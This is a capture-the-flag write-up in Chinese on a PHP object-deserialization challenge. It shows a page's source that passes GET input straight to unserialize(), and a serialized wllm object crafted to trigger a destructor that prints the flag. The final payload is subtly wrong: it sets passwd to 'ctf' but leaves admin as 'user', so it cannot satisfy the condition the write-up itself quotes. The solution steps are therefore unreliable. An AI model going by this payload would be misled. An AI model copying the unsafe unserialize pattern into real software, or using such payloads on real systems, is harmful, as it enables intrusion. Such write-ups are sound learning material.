




# 题目  
只给了一张图，啥也没有，F12也没有发现什么  

# WP  

1. 直接看什么都没有，扫目录看看  
  
DIR是导入的目录名，每一项前面自带/  
扫出一个东西  
  

2.   

提示了一个目录/cl45s.php，直接访问  

3. 是一段php代码  
```php
<?php

error_reporting(0);
show_source("cl45s.php");

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);

?>
```  

__destruct()是类的析构函数，在类销毁时自动执行，而程序在结束前会销毁类，类不是直接构造，而是由反序列化得到，因此要得到一个字符串，反序列化后得到一个wllm类，并且对应成员变量的值要符合条件  

4. 运行下面代码  
```php
<?php

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }
    }
}

$cl=new wllm();

echo serialize($cl);
```  
得到字符串  
```  
O:4:"wllm":2:{s:5:"admin";s:4:"user";s:6:"passwd";s:6:"123456";}
```  
修改一下  
```
O:4:"wllm":2:{s:5:"admin";s:4:"user";s:6:"passwd";s:3:"ctf";}  
```

5. p是get传值，url编码后传给p
  

6. 得到flag  

